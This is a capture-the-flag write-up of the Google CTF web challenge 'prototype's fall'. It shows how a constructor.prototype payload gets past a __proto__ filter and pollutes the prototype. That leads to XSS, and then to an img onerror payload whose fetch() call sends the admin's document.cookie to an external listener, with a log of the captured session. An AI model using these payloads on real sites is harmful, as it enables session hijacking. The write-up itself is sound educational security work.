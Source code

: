 # prototype's fall - googlectf - web

The system's defenses are built on flawed foundations. Their inheritance isn't as robust as they believe. To exploit their weakness, don't just corrupt the blueprint; manipulate the very essence of their creation – the constructor itself. Twist its purpose, and watch their reality crumble.

## Methodology

Objective is to send an XSS affected page ot the admin.

To acheive that we need to find some way to modify the page. Inspecting the source yields the following entry point that will allow us to alter the page.

```
// NEXT: Add a child in a safe way. For now, only do this in dev mode.
        if (getEnv().devMode) {
            console.log("append child")
            child = document.createElement('div');
            child.innerHTML = getEnv().safeHTML;
            document.body.appendChild(child)
        }
```

The only problem with this is that the getEnv() function is hardcoded to not have a devMode. But with prototype pollution, we can change the prototype for all objects... including getEnv()

## Prototype pollution

All signs are pointing to prototype pollution. Lets look at the source.

This function yields a prototype pollution entrypoint from a weak sanitization on the config get parameter:

```
// Merges two objects deeply. Because shallow merges are for the well-rested.
        function deepMerge(dest, src) {
            for (let key in src) {
                if (!src.hasOwnProperty(key)) {
                    continue
                }
                if (typeof src[key] !== 'object') {
                    dest[key] = src[key];
                    continue
                } else if (key === '__proto__') { // This input sanitization? Prototype pollution doesn't stand a chance.
                    continue;
                }

                if (!dest[key]) {
                    if (Array.isArray(src[key])) {
                        dest[key] = []
                    } else {
                        dest[key] = {};
                    }
                }
                deepMerge(dest[key], src[key]);
            }
        }

```

If we set the config input to the following, we are able to pollute the prototype:

```
{
  "constructor": {
    "prototype": {
      "devMode": true
    }
  }
}
```

After setting this as the config param we see that the getEnv() function inherited the debugMode property through protoype pollution because the div element was appended to the page.

---

Why did getEnv() inherit devMode if we sent the input to the getConfig() function?

__Modifying the prototype modifies the protoype of ALL objects__

## XSS

With the following source, we see that we can write to the page with whatever the getEnv().safeHTML value is:

```
// NEXT: Add a child in a safe way. For now, only do this in dev mode.
        if (getEnv().devMode) {
            console.log("append child")
            child = document.createElement('div');
            child.innerHTML = getEnv().safeHTML;
            document.body.appendChild(child)
        }
```

Adding safeHTML property through prototype pollution:

```
{
  "constructor": {
    "prototype": {
      "devMode": true,
      "safeHTML":"<script>alert()</script>"
    }
  }
}
```

No alert showed up but the script was properly loaded into the page.

Trying the image XSS payload:

```
{
  "constructor": {
    "prototype": {
      "devMode": true,
      "safeHTML":"<img src=x onerror=alert()>"
    }
  }
}
```

Success:

---

## Send to admin

From here we just have to modify the payload to send a fetch request for a domain we control and capture the cookie.

The modified payload that redirects to my domain with a listener:

```
{
  "constructor": {
    "prototype": {
      "devMode": true,
      "safeHTML":"<img src=x onerror=fetch('https://roommate-prescribed-madagascar-mexican.trycloudflare.com/flag='+document.cookie)>"
    }
  }
}
```

The flag:

```

127.0.0.1 - - [28/Feb/2025 14:38:18] "GET /flag=session=CTF%7B__proto__Pirate%7D HTTP/1.1" 200 -


```

# References/Learning

- Prototypes 
	- https://www.w3schools.com/js/js_object_prototypes.asp
	- https://developer.mozilla.org/en-US/docs/Learn_web_development/Extensions/Advanced_JavaScript_objects/Object_prototypes
- Prototype pollution